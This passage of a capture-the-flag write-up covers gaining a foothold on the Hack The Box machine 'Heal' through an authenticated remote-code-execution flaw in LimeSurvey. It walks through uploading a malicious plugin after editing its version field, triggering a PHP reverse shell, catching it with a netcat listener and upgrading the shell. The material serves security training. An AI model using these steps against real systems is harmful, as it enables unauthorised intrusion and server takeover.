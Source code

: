 We got the password, now let's try login in on lime survey at `http://take-survey.heal.htb/index.php/admin/authentication/sa/login`.

![lime](9.png)

## **Foothold**

I found earlier an Authenticated RCE on slime survey, let's use it.

We can find the exploit here <https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>.

Before running the exploit we need to change the ip address in the `php-rev.php` file to our tun0 ip address, make another zip with the name `Y1LD1R1M.zip` and finally change the target in the python script from `localhost:3000` to `lime-survey.heal.htb`

Running the exploit doesn't give us anything unfortunately, let's do it manually then.

The exploit uploads a zip file as a plugin.

![plug](10.png)

After selecting the file and clicking on install we get an error.

![error](11.png)

The error say that the plugin is not compatible with the current version of lime survey.

The version running is 6.6.4 and after checking the `config.xml` used by the exploit author we see him using the following:

```xml
<version>3.0</version>
<version>4.0</version>
<version>5.0</version>
```

Let's change one of the version's value to 6.0 and try again.

![worked](12.png)

We managed to upload it, now let's install it, setup our listener and navigate to `http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php` to trigger the php reverse shell.

```terminal
[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.57] from (UNKNOWN) [10.10.11.46] 47086
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:53:31 up  7:35,  2 users,  load average: 0.03, 0.10, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ron      pts/0    10.10.14.27      15:43    2:02m  0.03s  0.03s -bash
ron      pts/1    10.10.14.80      17:35   17:23   0.03s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@heal:/$ export TERM=xterm
export TERM=xterm
www-data@heal:/$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                                                              
┌──[10.10.16.57]─[sirius💀parrot]-[~/ctf/htb/heal]
└──╼[★]$ stty raw -echo; fg                                                            
[1]  + continued  nc -lvnp 9001

www-data@heal:/$
```
